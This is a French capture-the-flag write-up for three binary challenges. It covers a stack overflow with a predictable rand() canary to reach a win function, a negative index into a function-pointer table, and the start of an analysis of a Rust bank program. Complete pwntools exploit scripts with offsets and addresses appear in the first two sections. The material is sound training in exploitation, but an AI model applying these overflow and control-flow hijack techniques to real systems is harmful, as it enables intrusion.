### loose lottery

>consigne : Comme toute lotterie, il y a peu de chance de gagner... A moins de trouver un moyen détourné !

`openssl s_client -verify_quiet -quiet -connect lottery.serviel.fr:1234`

💽 binaire : 1_chall

#### étape 1 

🕵️‍♀️ Quand on lance le binaire, il demande si on est un nouvel arrivant : 



🕵️‍♀️ Tant bien même on met 'y' le programme plante.

🕵️‍♀️ Allons voir ce qui se trame dans IDA :



🕵️‍♀️ On comprend assez facilement qu'il faut mettre un 'Y' pour continuer le programme : 



🕵️‍♀️ On observe que les tirages vont s'incrémenter et que tout va se passer dans la fonction "tirage" : 



🕵️‍♀️ Contenu de la fonction tirage (après renommage et retypage) : 


👀 ici, nous avons deux choix, soit trouver la valeur attendue pour valider le chall, soit trouver une vulnérabilité dans le code pour aller directement à la fonction "gagne"

#### Méthode 1

🕵️‍♀️ Pour gagner, on voit que le "choix" doit être égal à "rand()". Regardons de plus près si le rand est vraiment aléatoire !!

🕵️‍♀️ Cherchons les x-refs à rand() dans le code (hot key 'X' sur rand()) : 



🕵️‍♀️ On observe l'utilisation de srand() 



🕵️‍♀️ ici, on peut déduire deux choses, la valeur de canary est initialisée par un rand() avant le srand(). Si on regarde la documentation de rand, on peut savoir que rand() sans arguments est automatiquement exécuté en tant que rand(1) : 


Du coup, la valeur de canary 🦆 est facilement calculable.

👀 A des fins d'apprentissage, je vais utiliser un appel à du code C depuis mon programme python. Pour ça, je définis mon code en C dans un fichier rand.c  :

```c
#include <stdlib.h>
#include <stdio.h>

int generate_random(){
    return rand();
}
```

👀 Je le compile en shared_library : 

```bash
gcc -shared -o librand.so -fPIC rand.c 
```

👀 Et j'utilise ctypes dans mon code python :

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)
```

🕵️‍♀️ Après plusieurs exécutions de notre code, on observe que le nombre généré est toujours le même : 



==canary = 1804289383==

🕵️‍♀️ En revanche, pour ce qui est du rand() de la fonction "tirage", il n'est pas possible de le deviner, car le srand() est exécuté avant : 



🕵️‍♀️ Nous allons devoir passer par la méthode 2 et trouver une vulnérabilité :
#### Méthode 2 - stack overflow

🕵️‍♀️ Dans la méthode 1 nous savons déjà que canary est égal à ==1804289383==

🕵️‍♀️ Si on observe le code de la fonction "tirage", on observe un buffer fixe de taille 72 (0x48) qui va récupérer l'entrée utilisateur : 



💣 Le problème est que la taille de l'entrée utilisateur est définie par 10 fois le nombre de tirage !





On se rend vite compte qu'une fois arrivé au tirage numéro 8 (8x10 = 80), on va dépasser le buffer de 72 !!!

💣 Confirmons notre hypothèse en entrant en allant jusqu'au 8éme tirage et entrant une valeur supérieur à 72 bytes ! 

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(8):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

nbr_if_char = cyclic(80)

io.sendlineafter(b'Quel est votre choix :',nbr_if_char)
print(io.recvline())
```

On a bien une erreur avec un stack smashing detected



🕵️‍♀️ Mais quelle est cette valeur qu'on a écrasée en dépassant les 72 bytes adressés pour le buffer de l'user input ??

Pour ça il faut comprendre la stack frame de la fonction "tirage" :


Dans le prologue de la fonction, on voit qu'un espace de 104 (0x68) bytes est alloué pour cette stack frame.

- en 1 : edi va dans rbp-64h
- en 2 : rax qui va dans rbp - 18h (canary value)
- en 3 : buff_tirage dans rbp -60h

Si on regarde juste avant la fonction "tirage" rdi vaut "le nombre de tirage" : 



🕵️‍♀️ On peut vérifier ces éléments en mettant un breakpoint dans gdb après avoir mis notre "choix".

- rbp-0x64 = On a bien notre nombre de tirages (1 seul en l'occurence)



- rbp-0x18 = 0x000000006b8b4567, donc on a bien la valeur du canary 1804289383 (n'oublions pas qu'on est en little endian !!)

 

```python
>>> from pwn import *
>>> data = pack(0x000000006b8b4567,'all','big',True) 
>>> int.from_bytes(data, byteorder='big')
```



- rbp-0x60 = On a bien notre input de 'AAAA'



Donc pour reprendre notre stack frame on a :

| position | valeur           |
| -------- | ---------------- |
| rbp      |                  |
| rbp-0x10 |                  |
| rbp-0x18 | canary           |
| ...      | user input       |
| ...      | user input       |
| rbp-0x60 | user input       |
| rbp-0x64 | nombre de tirage |
L'écart en le début de use_ input et canary est de 0x60 - 0x18 = 0x48 = 72 !!

💡 Mais qu'est ce qu'il y a au dessus de canary 🦆 ???



Si on reprend le cours, on se souvient que les deux premier éléments de la stack frame en 64 bits sont 


Donc on a :

| position | valeur           |
| -------- | ---------------- |
| rbp      | saved RIP        |
| rbp-0x10 | saved RBP        |
| rbp-0x18 | canary           |
| ...      | user input       |
| ...      | user input       |
| rbp-0x60 | user input       |
| rbp-0x64 | nombre de tirage |
Et RIP sera utiliser en fin de fonction pour aller sur la prochaine instruction

💣 Donc, si on arrive à écraser RIP on peut modifier le cours d'éxecution du programme et sauter directement dans la fonction win !

💣 Mais pour ca il faut que le canary soit valide : 



🕵️‍♀️ L'adresse de la fonction gagné est "000000000040127F"


💣 Pour l'exploitation, il nous faudra donc aller jusqu'au 9 éme tirage minimum, remplir le buffer de 72 bytes, écraser le canary par 1804289383 et écraser RIP par l'adresse de la fonction gagne 000000000040127F. Pour nous aider, nous allons utiliser pwntools.

Si on reprend notre code python on observe qu'on smash le canary sur une valeur de 61616173

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(8):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

nbr_if_char = cyclic(80)

io.sendlineafter(b'Quel est votre choix :',nbr_if_char)
print(io.recvline())
print(io.recv().decode())
```


On va donc chercher cette valeur et l'écraser par le canary pour voir si on arrive à passer ce check : 

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(8):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

nbr_if_char = cyclic(80)
n = cyclic_find(0x61616173)

io.sendlineafter(b'Quel est votre choix :',(b'A'*n)[:n]+p64(canary))
print(io.recvline())
print(io.recv().decode())
```

🕵️‍♀️ Le programme crash, mais on a plus de stack smashing, essayons donc de modifier la valeur de saved RIP qui est 0x18 après le canary : 

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(10):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

n = cyclic_find(0x61616173)
between_canary_and_rdivalue = cyclic(0x18)

io.sendlineafter(b'Quel est votre choix :',(b'A'*n)[:n]+p64(canary)+ between_canary_and_rdivalue + p64(0x40127f)) # 40127F = fonction gagne 
print(io.recvline())
print(io.recv().decode())
```



🎇 nickel on a gagné ! 🎇
### Zoo de pointeurs sauvages 1/4

>Vous venez d'être promu directeur du Zoo de pointeurs sauvages.  
A vous de remplir vos cases animalière comme bon vous semble

_Note: Dans cette première étape, on vous demande de faire planter le programme_

`openssl s_client -verify_quiet -quiet -connect zoo.serviel.fr:1234`

💽 binaire : 2_chall et 2_zoo.c

🕵️‍♀️ Ici c'est très rapide, si on analyse la fonction choice, on observe que le control de l'input se fait uniquement pour une valeur <= à 7 mais pas e dessous de 0 :



🕵️‍♀️ Si on essaye avec -1 on a le premier flag : 



👀 En poussant un peux plus loin, on observe des comportements non souhaités :


### Zoo de pointeurs sauvages 2/4

>consigne : Comme vous avez pu le voir, la structure du zoo comporte des trous...  
Essayez d'en faire quelque chose d'utile faisant entrer un animal non prévu

_Note: les fichiers sont les même de précédemment_
`openssl s_client -verify_quiet -quiet -connect zoo.serviel.fr:1234`

💽 binaire : 2_chall et 2_zoo.c

🕵️‍♀️ Dans la fonction main, on nous demande notre nom, on peut y mettre ce que l'on veut (et on va voir que c'est trés pratique !!! ): 



🕵️‍♀️ Le choix de l'utilisateur va être utilisé dans un tableau de pointeur de fonctions : 


cb :



💡 tips pour afficher correctement les pointeurs de fonction dans IDA




🕵️‍♂️ Imaginons que l'utilisateur choisisse '1', cb\[1\](), la foncion cb va donc appeler le pointeur de fonction situé en première position dans le tableau, soit cb+0x8 -> 0x404128 -> add_monkey().

💣 Mais nous, on peut mettre un nombre négatif !!! du coup, on peut appeler des éléments qui se situent plus haut : 



💣 à -0x20 (donc en position -4 (0x20/8 bytes), on peut appeler la variable "nom" que l'on maitrise totalement !!!!!!!

🕵️‍♂️ Testons notre hypothése avec gdb, on place des 'AAAAAAAAAA' dans le nom : 



🕵️‍♂️ On place -4 dans le choix :



🕵️‍♂️ On va regarder le call effectuer et vérifier qu'on a bien réussi à le manipuler :





##### Exploitation



💣 En little endian ça donne : 0xff1540 -> ÿ@ 

💣 Bon, ça contient des caractères non imprimables, on va passer par l'option pwntools !!!

```python
from pwn import *

io = process('./2_chal')

io.sendlineafter(b'Quel est tom nom ? ',p64(0x4015ff))
io.sendlineafter(b'-> ', str(-4))

# On crée un animal custom
io.sendlineafter(b'animal: ', b'1')
io.sendlineafter(b'animal: ', b'chat persan')
io.sendlineafter(b'animal: ', b'chat')

io.sendlineafter(b'-> ', b'4')

io.interactive()
```


### BankRupst

>consigne : BankRupst is a bank operating in bankruptcy where no laws are applicable.

`openssl s_client -verify_quiet -quiet -connect bankrupst.serviel.fr:1234`

💽 binaire : bankrupst et  le code source bankrupst.rs

#### Execution du binaire 



##### insert BankRupst card

🕵️‍♀️ Ça crée un compte si on n'en a pas : 



🕵️‍♀️ Ça crée une allocation mémoire pour le nouveau compte et un pointeur vers un deposit à 0



##### Deposit :

🕵️‍♀️ Si on a un compte ouvert, ça appelle la fonction deposit sur l'account : 



🕵️‍♀️ On observe une limite de 13 deposits avec des montants entre 0 et 100 dollars autorisés : 



##### Withdraw



🕵️‍♀️ On ne peut pas withdraw plus que ce qu'on a sur le compte en banque : 



👀 On peut mettre une valeur négative, on n'a pas d'erreur, mais ça n'a pas d'impact sur le deposit : 



##### Check balance

🕵️‍♀️ Ici, il faut réussir à avoir une balance supérieur à 1337 pour obtenir le flag !!!

🚧 Mais on a le droit qu'à 13 deposit de 100 dollars maximum !!! Ca fait donc un montant maximum de 1300 dollars possible !! Il va falloir trouver une faille dans le code !

